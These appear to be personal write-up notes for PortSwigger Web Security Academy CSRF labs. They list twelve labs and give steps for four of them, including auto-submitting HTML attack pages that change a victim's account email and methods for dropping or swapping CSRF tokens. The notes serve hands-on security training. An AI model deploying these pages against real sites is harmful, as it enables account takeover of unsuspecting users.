 # Navigation
- [CSRF vulnerability with no defenses](#csrf-vulnerability-with-no-defenses)
- [CSRF where token validation depends on request method](#csrf-where-token-validation-depends-on-request-method)
- [CSRF where token validation depends on token being present](#csrf-where-token-validation-depends-on-token-being-present)
- [CSRF where token is not tied to user session](#csrf-where-token-is-not-tied-to-user-session)
- [CSRF where token is tied to non-session cookie](#csrf-where-token-is-tied-to-non-session-cookie)
- [CSRF where token is duplicated in cookie](#csrf-where-token-is-duplicated-in-cookie)
- [SameSite Lax bypass via method override](#samesite-lax-bypass-via-method-override)
- [SameSite Strict bypass via client-side redirect](#samesite-strict-bypass-via-client-side-redirect)
- [SameSite Strict bypass via sibling domain](#samesite-strict-bypass-via-sibling-domain)
- [SameSite Lax bypass via cookie refresh](#samesite-lax-bypass-via-cookie-refresh)
- [CSRF where Referer validation depends on header being present](#csrf-where-referer-validation-depends-on-header-being-present)
- [CSRF with broken Referer validation](#csrf-with-broken-referer-validation)
# CSRF vulnerability with no defenses
1. Construct the following malicious page
```html
<html>
	<body>
		<form action="https://0a25009b03ad310f810a896800ae008f.web-security-academy.net/my-account/change-email" method="POST">
			<input type="hidden" name="email" value="owned@evil.net" />
		</form>
		<script>
			document.forms[0].submit();
		</script>
	<body>
</html>
```
# CSRF where token validation depends on request method
1. Login > Change email
2. Request is using POST method
3. Removing CSRF returns a CSRF error message
4. Change request method to GET and notice CSRF error disappears
5. Construct the following malicious page
```html
<script src="https://0ae000ff048a47fdbaa4eac60095008a.web-security-academy.net/my-account/change-email?email=pwn@hacked.lol"/>
```
- This will issue a GET request
# CSRF where token validation depends on token being present
1. Login > Change email
2. Remove the CSRF token parameter completely lets a POST request work perfectly fine
3. Use the same POST payload from the first lab
# CSRF where token is not tied to user session
- Two logins `carlos` and `wiener`
1. Login > Change email
2. Replaying the request says CSRF token is invalid
3. Every time the page is refreshed a new CSRF token is generated
	1. Login to second account and retrieve their CSRF token from the HTML
	2. Provide the second account's CSRF token as the replayed request from step 2 and confirm that it works
